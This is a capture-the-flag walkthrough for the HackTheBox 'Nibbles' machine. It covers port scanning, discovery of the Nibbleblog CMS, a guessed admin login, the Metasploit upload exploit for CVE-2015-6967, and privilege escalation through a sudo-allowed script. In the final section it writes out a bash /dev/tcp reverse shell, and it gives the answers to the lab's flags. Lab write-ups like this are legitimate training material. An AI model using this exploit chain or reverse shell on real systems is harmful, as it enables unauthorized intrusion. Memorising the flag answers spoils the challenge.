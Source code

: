 # HackTheBox Walkthrough - Machine: Nibbles

**Target IP**: 10.129.243.127  
**Difficulty**: Easy  
**Objective**: Exploit the NibbleBlog CMS to gain user and root access.

---

## Task 1: How many open TCP ports are listening on Nibbles?
Performed an Nmap scan:
```bash
nmap -sV -sC -oA nmap/Nibbles 10.129.243.127
```
![nmap](img/nmap.png)

**Open Ports**:
- 22/tcp (SSH)
- 80/tcp (HTTP)

**Answer**: `2`

---

## Task 2: What is the relative path on the webserver to a blog?
Inspected the source of the home page:
![websrc](img/websrc.png)

```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
**Answer**: `/nibbleblog`

---

## Task 3: What CMS is being used by the blog?
Accessed `/nibbleblog/` and checked the footer:
![webpage](img/webpage.png)

> Powered by Nibbleblog

**Answer**: `Nibbleblog`

---

## Task 4: What is the relative path to an XML file that contains the admin username?
Used feroxbuster to find XML files:
```bash
feroxbuster -u http://10.129.243.127/nibbleblog/
```
![feroxbuster](img/feroxbuster.png)

Found user config:
> /nibbleblog/content/private/users.xml  
![userxml](img/userxml.png)

**Answer**: `/nibbleblog/content/private/users.xml`

---

## Task 5: What is the admin user's password?
Logged in via:
- **Username**: admin
- **Password**: Nibbles  
![login](img/login.png)

**Answer**: `nibbles`

---

## Task 6: What version of Nibbleblog is running?
Checked settings after login:
> Nibbleblog 4.0.3 "Coffee"  
![setting](img/setting.png)

**Answer**: `4.0.3`

---

## Task 7: What is the 2015 CVE for an authenticated file upload RCE?
Discovered via exploit-db:
> CVE-2015-6967

**Answer**: `CVE-2015-6967`

---

## Task 8: Which user is the Nibbleblog instance running as?
Used Metasploit module:
```bash
use multi/http/nibbleblog_file_upload
```
Gained meterpreter shell and ran `getuid`:  
> `nibbler`  
![meterpreter](img/meterpreter.png)

**Answer**: `nibbler`

---

## Submit User Flag
Read user flag from:
```bash
cat /home/nibbler/user.txt
```
![userflag](img/userflag.png)

**Answer**: `893797f82ce88e0b891bb58c95d80842`

---

## Task 10: What script can nibbler run as root?
Checked sudo permissions:
```bash
sudo -l
```
![sudo-l](img/sudo-l.png)

> (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

**Answer**: `monitor.sh`

---

## Submit Root Flag
Created reverse shell in monitor.sh:
```bash
#!/bin/bash
IP="10.10.14.156"
PORT=7777
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```
Ran it with:
```bash
sudo -u root /home/nibbler/personal/stuff/monitor.sh
```
![root](img/root.png)

Then:
```bash
cat /root/root.txt
```
![rootflag](img/rootflag.png)

**Answer**: `085806261dc17eb756f71d56190e185d`

---
